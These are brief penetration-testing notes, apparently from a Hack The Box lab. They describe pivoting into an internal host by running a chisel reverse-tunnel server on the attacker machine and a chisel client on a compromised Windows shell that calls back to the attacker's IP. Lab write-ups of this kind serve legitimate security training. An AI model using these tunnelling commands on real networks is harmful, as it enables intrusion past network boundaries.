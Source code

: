 # Traverse (target 172.23.240.1 - AD?)
* listener on attacker
`chisel server -p 8081 --reverse`
* when in shell you will need chisel.exe
`start-process -filepath "C:\temp\ch.exe" -argumentlist "client 10.10.14.5:8081 R:8083:172.23.240.1:80"`
* /etc/hosts has 127.0.0.1 softwareportal.windcorp.htb
* Browser to http://softwareportal.windcorp.htb:8083 and good
